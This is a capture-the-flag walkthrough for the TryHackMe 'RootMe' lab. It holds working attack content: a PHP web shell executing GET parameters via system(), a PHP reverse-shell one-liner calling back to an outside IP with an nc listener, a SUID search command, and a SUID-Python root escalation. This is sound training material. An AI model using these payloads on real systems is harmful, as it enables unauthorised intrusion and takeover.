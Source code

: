 # RootMe

IP: `10.10.99.182`

## NMAP
- 22 - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 80 - Apache httpd 2.4.29

## Gobuster
`gobuster -u 10.10.99.182 -w /home/ryusei/Tools/basic_pen_tools/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py`

found:
`/index.php (Status: 200)`
`/uploads (Status: 301)`
`/css (Status: 301)`
`/js (Status: 301)`
`/panel (Status: 301)`

`panel` allows to upload files... probably found then in uploads

## Deploy php shell
create `file.php5`
content:
`<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
`

now call it from uploads ... you have exec
run: `php -r '$sock=fsockopen("10.9.6.33",1234);exec("sh <&3 >&3 2>&3");'`

and on your machine run `nc -lnvp 1234`

## Deploy shell
`python -c 'import pty; pty.spawn("/bin/bash")'`
upload linpeas
run `chmod +x linpeas.sh`
run `./linpeas.sh`

## Linpeas findings
several findings
(alternative to linpeas search: `find / -type f -user root -perm -4000 2>/dev/null`)

but we used python and python has SUID
`/usr/bin/python`

## Use Python for Priv. esc.
type: `python -c 'import os; os.execl("bin/bash", "sh", "-p")'`
OSError: [Errno 2] No such file or directory
sry `sh` is wrong `bash` is what we need
type: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
try: `whoami` - get: `root`

goto root
find `root.txt` 
cat `root.txt` get: `THM{pr1v1l3g3_3sc4l4t10n}`

